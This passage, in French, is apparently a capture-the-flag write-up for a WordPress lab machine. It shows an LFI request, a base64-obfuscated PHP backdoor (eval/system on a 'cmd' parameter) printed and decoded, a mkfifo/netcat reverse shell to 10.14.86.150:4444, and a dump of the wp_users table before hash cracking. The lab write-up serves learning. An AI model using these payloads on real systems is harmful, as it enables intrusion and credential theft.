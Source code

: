 Cependant, il est possible que ce plugin ait été modifié pour contenir une backdoor. En lisant le code open source du plugin, disponible sur [GitHub](https://github.com/WordPress/hello-dolly) nous apprenons que le plugin est stocké dans le répertoire `wp-content/plugins/hello.php`. A l'aide de la vulnérabilité **LFI** que nous avons exploitée précédemment 
```html
http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
nous pouvons alors accéder au code source du plugin.

![Image](https://i.ibb.co/qYb0mdJK/image.png){: .normal }

Ici, nous pouvons alors remarquer que la fonction `hello_dolly()` censée afficher les paroles de la chanson a été modifiée pour exécuter une commande système. Nottament avec la ligne suivante : 

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

qui correspond à `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }` en base64 et `\143\x6d\144` correspondant à `cmd`.


---
## Étape 3 : Exploitation de la backdoor

En utilisant la backdoor, nous pouvons exécuter des commandes système sur le serveur. 

![Image](https://i.ibb.co/VYyX8pRt/image.png){: .normal }

Dans notre cas, la commande `nc -e` semble avoir été désactivée, l'autre moyen d'obtenir un shell interactif est donc d'utiliser la commande `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.14.86.150 4444 > /tmp/f`.

![Image](https://i.ibb.co/v6WdJ84Q/image.png){: .normal }

Comme nous l'avons alors vu dans *wp-config.php*, wordpress utilise une base de données **SQL** nommée `wordpress`. Nous pouvons alors nous connecter à la base de données pour dump les tables.

![Image](https://i.ibb.co/NnSthV89/image.png){: .normal }

Puis de par la commande `SELECT * FROM wp_users;` récupérer les identifiants des différents utilisateurs.

![Image](https://i.ibb.co/C3TBx1VC/image.png){: .normal }


--- 
### Dehash des mots passe

Comme vous pouvez le voir, les mots de passe sont hashés en `phpass` . Nous devons donc les déchiffrer pour pouvoir nous connecter en tant qu'utilisateur. Pour ce faire, nous allons utiliser l'outil **hashcat**.

